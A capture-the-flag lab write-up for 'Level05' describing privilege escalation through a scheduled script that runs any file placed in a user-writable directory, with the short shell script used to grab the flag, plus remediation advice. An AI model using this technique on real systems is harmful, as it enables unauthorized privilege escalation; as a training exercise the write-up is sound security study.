

# Level05 - Arbitrary Code Execution via Scheduled Script

## Description

On the system, I discovered a script `/usr/sbin/openarenaserver` that regularly runs files from `/opt/openarenaserver/`.
The script executes every file found in this directory and then deletes it.
Since there is no validation or restriction on the files being executed, any file placed in `/opt/openarenaserver/` will be run with `flag05` privileges.

## Exploitation

I created a script in `/opt/openarenaserver/`:

```bash
#!/bin/sh
getflag > /tmp/pass.txt
```

Then, I made it executable:

```bash
chmod +x flag
```
After waiting a little, the scheduled script ran, executed my file, and saved the flag in `/tmp/pass.txt`.

## Remediation
- Only allow safe, trusted files to be run by scheduled tasks.
- Do not run files from folders where normal users can write.
- Use proper permissions to prevent unauthorized file execution.

## Conclusion

This vulnerability demonstrates that executing unvalidated files from user-writable directories can lead to privilege escalation.


